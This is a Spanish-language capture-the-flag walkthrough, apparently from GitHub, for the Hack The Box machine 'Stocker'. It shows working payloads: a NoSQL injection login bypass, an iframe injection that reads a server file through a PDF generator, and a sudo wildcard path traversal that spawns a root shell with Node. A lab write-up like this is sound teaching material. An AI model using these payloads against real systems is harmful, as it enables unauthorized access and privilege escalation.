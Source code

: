 # Stocker
![N|Solid](https://www.hackthebox.com/storage/avatars/da052d0b0efd6dad222ba4a73d987c16.png)

Primero debemos agregar la direccion IP a /etc/hosts
```
IP=ip_addr
$ sudo echo -e "$IP\tstocker.htb" >> /etc/hosts
```

Realizamos un escaneo con nmap para inspeccionar los puertos abiertos
```
$ sudo nmap -sC -Pn -n T5 stocker.htb
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 17:06 EST
Nmap scan report for stocker.htb (10.10.11.196)
Host is up (0.087s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 3d12971d86bc161683608f4f06e6d54e (RSA)
|   256 7c4d1a7868ce1200df491037f9ad174f (ECDSA)
|_  256 dd978050a5bacd7d55e827ed28fdaa3b (ED25519)
80/tcp open  http
|_http-generator: Eleventy v2.0.0
|_http-title: Stock - Coming Soon!

Nmap done: 1 IP address (1 host up) scanned in 4.95 seconds
```

Se intento enumerar los directorios del servicio web con webEnum, sin embargo no se encontro nada relevante.
Se realizo tambien una enumeracion vhost con la tecnica de resolucion de nombres usando la herramienta webFuzzer lo cual mostro como resultado que existe tambien un vhost con la url dev.stocker.htb
```
$ python3 webFuzzer.py -u http://stocker.htb/FUZZ -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt  --threads 40  --header "Host=FUZZ.stocker.htb" --hs 301 --quiet

               _     ______                      
              | |   |  ____|                     
 __      _____| |__ | |__ _   _ ___________ _ __ 
 \ \ /\ / / _ \ '_ \|  __| | | |_  /_  / _ \ '__|
  \ V  V /  __/ |_) | |  | |_| |/ / / /  __/ |   
   \_/\_/ \___|_.__/|_|   \__,_/___/___\___|_|   
                                                 
    author:  mind2hex
    version: 1.0
    
PAYLOAD[http://stocker.htb/dev                   - {'Host':'dev.stocker.htb','Accept':'text/html,application] SC[404] CL[UNK] SERVER[nginx/1.18.0 (Ubuntu)]
```
Al navegar a la URL http://dev.stocker.htb/ nos redirige automaticamente a una pagina de login. 
Esta pagina de Login es vulnerable a NoSQL injection.
La solicitud HTTP que se envia cuando intentamos logearnos es la siguiente
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 29
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Cookie: connect.sid=s%3AN0cu4Mtp2qc5WI-Zc0_zYyuGRa4rtzZo.C3fNFu3CYJo%2FVhvRmgSygxHaMJ%2Bc7GRY7bAKNi76UDE
Upgrade-Insecure-Requests: 1

username=admin&password=admin
```
Si cambiamos el Content-Type por application/json y le damos formato json a la informacion enviada en el body de la siguiente manera, podremos realizar un login bypass
```
POST /login HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 102
Origin: http://dev.stocker.htb
Connection: close
Referer: http://dev.stocker.htb/login
Upgrade-Insecure-Requests: 1

{"username": {"$ne": "dummyusername123"}, "password": {"$ne": "dummypassword123"}, "login": "login"}
```
Al enviar la solicitud, nos asignan un cookie y nos redirigen a /stock donde podremos "comprar" algunos productos o por lo menos agregarlos al carrito de compras
![Pagina De Compras](readme_files/stocker_1.png)
Una vez estemos adentro, agregaremos un objeto al carrito de compras y despues presionaremos en submit purchase.
La solicitud HTTP que se envia es explotable, podemos insertar codigo HTML en el campo "title" de la siguiente manera.
```
POST /api/order HTTP/1.1
Host: dev.stocker.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://dev.stocker.htb/stock
Content-Type: application/json
Origin: http://dev.stocker.htb
Content-Length: 216
Connection: close
Cookie: connect.sid=s%3A-6ZhHCRVeDZoVAHfKwG_pvbFqhZH5zhy.Im7tANLE278rm%2FqFmDaXD9JbyW429b%2F7h%2BwznFvX1iQ

{"basket":[{"_id":"638f116eeb060210cbd83a8d","title":"<iframe src=/var/www/dev/index.js width=4000 height=1060>","description":"It's a red cup.","image":"red-cup.jpg","price":32,"currentStock":4,"__v":0,"amount":1}]}
```
Esto va a generar un PDF en la ruta http://dev.stocker.htb/api/po/{orderid} dicho PDF nos va a mostrar el archivo que le especifiquemos en el iframe anterior.
![Pagina De Compras](readme_files/stocker_2.png)
En el archivo podremos ver la contrasena "IHeardPassphrasesArePrettySecure" la cual nos va a servir tambien para iniciar una sesion con SSH.
El nombre de usuario es "angoose", el cual aparece en la pagina http://stocker.htb/

Iniciamos sesion con SSH usando el usuario angoose y la contrasena IHeardPassphrasesArePrettySecure para obtener la bandera user.txt
```
$ ssh angoose@stocker.htb
angoose@stocker.htb's password: 
Last login: Thu Apr 27 20:48:35 2023 from 10.10.14.14
angoose@stocker:~$ cat /home/angoose/user.txt 
2a5519d5f9240374c4c92e67bc2532b9
```
Ahora ejecutaremos el comando sudo -l para ver que permisos de ejecucion tenemos.
```
angoose@stocker:~$ sudo -l
[sudo] password for angoose: 
Matching Defaults entries for angoose on stocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User angoose may run the following commands on stocker:
    (ALL) /usr/bin/node /usr/local/scripts/*.js
angoose@stocker:~$ 
```
Esto nos indica que podemos usar el ejecutable /usr/bin/node con permisos de root para ejecutar cualquier script que cumpla la ruta /usr/local/scripts/*.js
Pero al inspeccionar la ruta /usr/local/scripts/ no podremos crear ni modificar ningun archivo existente.
```
angoose@stocker:~$ ls /usr/local/scripts/ -l
total 24
-rwxr-x--x 1 root root  245 Dec  6 09:53 creds.js
-rwxr-x--x 1 root root 1625 Dec  6 09:53 findAllOrders.js
-rwxr-x--x 1 root root  793 Dec  6 09:53 findUnshippedOrders.js
drwxr-xr-x 2 root root 4096 Dec  6 10:33 node_modules
-rwxr-x--x 1 root root 1337 Dec  6 09:53 profitThisMonth.js
-rwxr-x--x 1 root root  623 Dec  6 09:53 schema.js
angoose@stocker:~$ 
```
Sin embargo la ruta /usr/local/scripts/*.js tiene un error y es que si especificamos /usr/local/scripts/../../../home/angoose/script.js igualmente se cumpliria la condicion para la ejecucion de /usr/bin/node como usuario root por lo que procedemos a crear un script en el directorio /home/angoose y lo ejecutaremos para obtener una shell con permisos de root
```
angoose@stocker:~$ echo 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})' > /home/angoose/script.js
angoose@stocker:~$ sudo /usr/bin/node /usr/local/scripts/../../../home/angoose/script.js 
# whoami
root
```
Ahora que tenemos permisos de administrador, podremos leer la bandera root
```
# cat /root/root.txt
0xdeadb33F123131231212313
```